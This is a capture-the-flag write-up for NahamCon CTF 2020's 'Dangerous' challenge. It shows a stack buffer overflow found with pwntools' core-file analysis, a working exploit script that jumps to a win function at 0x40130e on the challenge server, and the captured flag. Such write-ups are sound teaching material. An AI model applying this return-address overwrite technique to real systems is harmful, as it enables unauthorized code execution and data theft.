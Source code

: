 # NahamCon CTF 2020

## Dangerous

> 75
>
> Hey! Listen! 
>
> Connect here:</br>
> `nc jh2i.com 50011`</br>
>
> [`dangerous`](dangerous)

Tags: _pwn_ _x86-64_ _rop_ _bof_


## Summary

Classic buffer overflow -> win function.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Some mitigations in place.  Ripe for buffer overflow and ROP.


### Decompile with Ghidra

Normally I'd decompile with Ghidra, search for any vulnerabilities, and use math to figure out payloads; but then decided to let pwntools do all the work for me (something new to try, to learn).  Well, mostly.

> I already have [examples](https://github.com/datajerk/ctf-write-ups/blob/master/sharkyctf2020/giveaway0/README.md) of how this exploit works, I just didn't want to write another one exactly like it.

This binary is stripped of symbols, so you'll have to look at each function, and in no time you'll find a `win` function:

```c
void FUN_0040130e(void)

{
  char local_218 [524];
  int local_c;
  
  local_c = open("./flag.txt",0);
  read(local_c,local_218,0x200);
  close(local_c);
  puts(local_218);
  return;
}
```

Next use cyclic to check for a buffer overflow:

```bash
# cyclic 1000 | ./dangerous

...

Segmentation fault
```

Right, using tips from [HSCTF 7: pwnagotchi (Pwn)](https://dystopia.sg/hsctf-pwnagotchi/), see if pwntools can just do all the work for me.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

p = process('./dangerous')

p.recvuntil('What\'s your name?')
p.sendline(cyclic(1024,n=8))
p.wait()
core = p.corefile
p.close()
os.remove(core.file.name)
padding = cyclic_find(core.read(core.rsp, 8),n=8)

payload  = padding * b'A'
payload += p64(0x40130e)

p = remote('jh2i.com', 50011)
p.recvuntil('What\'s your name?')
p.sendline(payload)
p.stream()
```

Yep, pwntools can find the return address with automated core file analysis.  All that is needed is the address of `FUN_0040130e` (`0x40130e`) as the payload for the return address.

> I probably should have had pwntools find `flag.txt`, then find the enclosing function to dynamically return the address of the `win` function.  For the next CTF...

Output:

```bash
# ./exploit.py
[+] Starting local process './dangerous': pid 30324
[*] Process './dangerous' stopped with exit code -11 (SIGSEGV) (pid 30324)
[+] Parsing corefile...: Done
[*] '/pwd/datajerk/nahamconctf2020/dangerous/core.30324'
    Arch:      amd64-64-little
    RIP:       0x40130d
    RSP:       0x7ffda1480ab8
    Exe:       '/pwd/datajerk/nahamconctf2020/dangerous/dangerous' (0x401000)
[+] Opening connection to jh2i.com on port 50011: Done

It's dangerous to go alone! Take this, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
         █
        ███
        ███
        ███
        ███
        ███
        ███
        ███
        ███
        ███
      ███████
      █ ███ █
        ███
        ███
        ███

flag{legend_of_zelda_overflow_of_time}
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Nope, that won't do, need the full glory of full color:

![](zelda.png)